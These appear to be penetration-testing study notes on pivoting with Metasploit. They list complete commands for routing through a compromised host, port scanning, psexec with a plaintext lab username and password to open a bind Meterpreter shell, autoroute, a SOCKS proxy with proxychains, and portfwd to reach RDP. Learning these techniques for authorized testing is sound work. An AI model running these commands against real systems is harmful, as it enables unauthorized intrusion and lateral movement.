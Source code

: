 
- Example:
		- As in the previous sections, we'll connect to the bind shell on port 4444 on the machine ITWK01. Let's assume we are currently gathering information on the target. In this step, we'll identify a second network interface.
	- `ipconfig`
	- Listing 74 shows that the second interface has the assigned IP 172.16.5.199.
	- Get meterpreter shell with **met.exe**
	- `bg`
	- **route add**
		- To add a route to a network reachable through a compromised host
		- ```route add 172.16.5.0/24 12```
		- route add $ip $session
	- **route print**
	- scan ports
		- ```use auxiliary/scanner/portscan/tcp ```
		- ```set RHOSTS 172.16.5.200```
		- ```set PORTS 445,3389```
		- `run`
	- SMB & RDP ports found
	- Attempt to use *psexec*
		- username is luiza
		- password is _BoccieDearAeroMeow1!_.
	- Let's use _exploit/windows/smb/psexec_ and set **SMBUser** to **luiza**, **SMBPass** to **BoccieDearAeroMeow1!**, and **RHOSTS** to **172.16.5.200**.
	- [It's important to note that the added route will only work with established connections. Because of this, the new shell on the target must be a bind shell such as _windows/x64/meterpreter/bind_tcp_, thus allowing us to use the set route to connect to it. A reverse shell payload would not be able to find its way back to our attacking system in most situations because the target does not have a route defined for our network.]
		- ```use exploit/windows/smb/psexec ```
		- ```set SMBUser luiza```
		- ```set SMBPass "BoccieDearAeroMeow1!"```
		- ```set RHOSTS 172.16.5.200```
		- ```set payload windows/x64/meterpreter/bind_tcp```
		- `set LPORT 8000`
		- `run`
	- **route flush**
		- removes manual routes
	- **autoroute** module
		- set up pivot routes through an existing Meterpreter session automatically
		- ```use multi/manage/autoroute```
		- `show options`
		- `sessions -l`
		- `set session 12`
		- `run`
	- **server/socks_proxy** auxiliary module to configure a SOCKS proxy
		- pivot on port 1080 by default
		- ```use auxiliary/server/socks_proxy```
		- `show options`
		- ```set SRVHOST 127.0.0.1```
		- `set VERSION 5`
		- `run -j`
		- update *proxychains* config file
			- ```socks5 127.0.0.1 1080```
		- ```sudo proxychains xfreerdp /v:172.16.97.200 /u:luiza```
	- use a similar technique for port forwarding using the **portfwd** command from inside a Meterpreter session, which will forward a specific port to the internal network.
		- `sessions -i 12`
		- `portfwd -h`
	- We can create a port forward from localhost port 3389 to port 3389 on the target host (172.16.5.200)
		- ```portfwd add -l 3389 -p 3389 -r 172.16.97.200```
	- Test
		- ```sudo xfreerdp /v:127.0.0.1 /u:luiza```